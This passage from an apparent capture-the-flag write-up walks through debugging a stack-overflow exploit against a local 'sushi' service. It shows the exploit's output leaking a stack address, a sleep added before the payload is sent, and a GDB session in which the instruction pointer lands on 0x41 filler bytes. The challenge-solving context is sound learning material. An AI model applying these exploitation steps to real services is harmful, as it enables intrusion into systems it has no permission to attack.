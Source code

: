 Which results in this cool output thanks to binjitsu.

```
root@mankrik:~/bsides# ./suship1.py   
[+] Opening connection to localhost on port 4000: Done  
Deposit money for sushi here: 0x7fff16633800  
Address: 0x7fff16633800  
Length of attack: 78  
[*] Closed connection to localhost port 4000  
```

Let's add one thing just before it sends the payload "attackstring" so that we can have a few seconds to attach a debugger if we want:

```
...  
print "Length of attack: " + str(len(attackstring))   
# sleep so we can attach a debugger  
time.sleep(10)  
# send the payload   
conn.send(attackstring)   
...  
```

And to simplify attaching a debugger, without having to know the pid every time, use this Bash one-liner to fire up GDB on the sushi process:

```
root@mankrik:~/bsides# gdb --quiet -p `ps -auwwx | grep sushi | grep -v python | grep -v grep | awk '{print $2}'`  
```

So all that preperation done, let's run our exploit, attach our debugger and see where we're at:



```
root@mankrik:~/bsides# gdb --quiet -p `ps -auwwx | grep sushi | grep -v python | grep -v grep | awk '{print $2}'`  
warning: bad ps syntax, perhaps a bogus '-'?  
See http://gitorious.org/procps/procps/blobs/master/Documentation/FAQ  
Attaching to process 46889  
...
0x00007fbc9bd18970 in read () from /lib/x86_64-linux-gnu/libc.so.6  
(gdb) c  
Continuing.  
Program received signal SIGSEGV, Segmentation fault.  
0x00007fff06f4fe30 in ?? ()  
(gdb) x/4i $pc  
=> 0x7fff06f4fe30:     rex.B  
 0x7fff06f4fe31:     rex.B  
 0x7fff06f4fe32:     rex.B  
 0x7fff06f4fe33:     rex.B  
(gdb) x/4bx $pc  
0x7fff06f4fe30:     0x41     0x41     0x41     0x41  
```
